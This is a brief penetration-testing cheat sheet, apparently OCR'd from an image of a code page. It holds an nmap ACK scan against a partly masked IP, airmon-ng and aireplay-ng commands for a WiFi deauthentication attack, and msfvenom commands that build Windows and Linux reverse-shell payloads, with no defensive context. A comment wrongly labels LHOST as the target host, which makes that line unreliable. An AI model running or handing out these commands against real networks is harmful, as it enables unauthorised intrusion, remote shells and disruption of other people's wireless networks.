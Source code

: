 
nmap -PN -sA -vv -n -p1-1000 -T4 -oNmapACKScan.txt 117.X.X.X

## WIFI with aireplay
airmon-ng start $iface # monitor mode
airodump-ng $mon
(airodump-ng --bssid xx:xx:xx:xx:xx:xx -c 1-13 [--write WPA_crack_file] <iface>)
aireplay-ng --deauth 100 -a $some_MAC -c $other_MAC $mon"

## Windows reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=eth0 LPORT=8080 EXITFUNC=thread \
-f raw -b "\x00\x09\x0d\x0a\x20\xff" -n 32 > warhead.txt
## Linux reverse shell
msfvenom -p linux/x64/shell_reverse_tcp \ # Specify the payload
            LHOST=127.0.0.1             \ # Target host to connect
            LPORT=4444                  \ # Target port
         -b '\x00'                      \ # Bad characters
         -f python                        # Format of the payload

